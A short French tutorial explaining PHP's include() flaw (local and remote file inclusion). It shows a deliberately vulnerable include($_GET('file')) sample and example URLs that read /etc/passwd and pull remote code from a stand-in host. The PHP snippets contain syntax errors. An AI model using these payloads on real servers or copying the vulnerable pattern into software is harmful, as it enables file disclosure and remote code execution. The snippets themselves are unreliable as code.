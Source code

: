 # La faille include

La fonction include() en PHP sert a executer du code php qui se situe dans un autre fichier. Exemple: 

```
<?php

include(bth.php)
```

Dans ce cas, c'est le code dans bth.php qui sera executé.

Si par contre le développeur écrit ce code :

```
<?php

include($_GET('file'));
```

Pour exploiter cette faille, on peut utiliser l'URL suivante :

>monsite.tld/index.php?file=/etc/passwd

Ici la fonction "include" va inclure le texte du fichier "/etc/passwd", et donc afficher son contenu. Il est possible de changer "/etc/passwd" en un autre fichier du serveur qui n'est normalement pas accesible, ou même par du code distant accessible sur un autre serveur.

Exemple : 

>monsite.tld/index.php?file=http://badsite.tmld/script.txt

